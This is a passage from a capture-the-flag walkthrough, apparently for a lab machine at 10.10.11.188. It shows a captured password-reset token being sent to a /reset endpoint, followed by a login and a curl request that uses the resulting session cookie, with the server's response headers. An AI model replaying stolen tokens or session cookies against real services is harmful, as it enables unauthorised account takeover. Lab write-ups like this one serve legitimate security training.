 Of course this was meant to be sent from the server to the server and we know from our earlier enum that the `/reset` path exists, so lets try to hit it with the token
```
http://10.10.11.188/reset?token=vh57l92o3dRhzzoMfw8qaXSK62JTzfc595xA96sb4k7N%2BoTwaoIui76o93mHnvx6lXXmybMxZBLltlxp3SSyCA%3D%3D
```
And we get a `success` error now:  
![success.png](success.png)  

So we should now be able to login, but this isn't working because the site is borked again?  
![motherfucker.png](motherfucker.png)  

Resetting the box and trying the whole process once more.  
Finally got in

So now we got a session cookie: 
```bash
curl -I -b 'session=e619bd1a-4f08-4411-9774-0e4267e7504d' 'http://10.10.11.188/home'
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sun, 29 Jan 2023 10:19:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 6540
Set-Cookie: session=e619bd1a-4f08-4411-9774-0e4267e7504d; HttpOnly; Path=/
X-Varnish: 229455
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Accept-Ranges: bytes
Connection: keep-alive
```
```bash
curl -I 'http://10.10.11.188/home'
```